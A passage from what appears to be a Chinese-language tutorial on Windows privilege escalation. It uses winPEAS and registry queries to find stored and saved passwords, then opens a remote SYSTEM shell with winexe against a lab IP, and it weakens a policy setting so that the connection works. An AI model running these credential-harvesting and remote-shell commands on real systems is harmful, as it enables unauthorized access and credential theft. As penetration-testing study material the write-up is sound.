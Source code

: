 #### 1.使用winPEAS 检查常见密码位置：

```php
.\winPEASany.exe quiet filesinfo userinfo
```

（最终检查需要很长时间才能完成）

#### 2.查看信息

#### 3.我们可以手动验证这些：(查询注册表)

```php
reg query "HKLM\Software\Microsoft\Windows  NT\CurrentVersion\winlogon" reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

#### 4.使用 winexe 使用凭据远程连接外壳

```php
winexe -U 'admin%password123' //192.168.175.245 cmd.exewinexe -U 'admin%password123' --system //192.168.175.245 cmd.exe
```

针对winexe的连接报错

```php
Win7上修改1.关闭防火墙；2.Win+R>secpol.msc >本地策略>安全选项>网络访问:本地帐户的共享和安全模型：经典-对本地用户进行身份验证，不改变其本来身份；3.以管理员身份执行cmd，输入以下命令：reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\system" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

![image-20210707171706828](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e20f072fdb20cb67ab799f66572d3e7d63ad6910.png)

信用
--

Windows 具有runas 命令，允许用户使用其他用户的权限运行命令。

这通常需要了解其他用户的密码。

但是，Windows 还允许用户将其凭据保存到系统，这些保存的凭据可用于绕过此要求。

那么我们可以尝试去窃取这些凭据

### 1.使用winPEAS检查保存的凭据：

```php
.\winPEASany.exe quiet cmd windowscreds
```

![image-20210722222104913](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-34e3088b04916de3317aec1f235d5aebcf1d0db4.png)

### 2.似乎存在为管理员用户保存的凭据

![image-20210722223737745](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cf5c33145a02d1cef98e2aa732b5990cd2d89249.png)

### 3.我们可以使用以下命令手动验证此命令
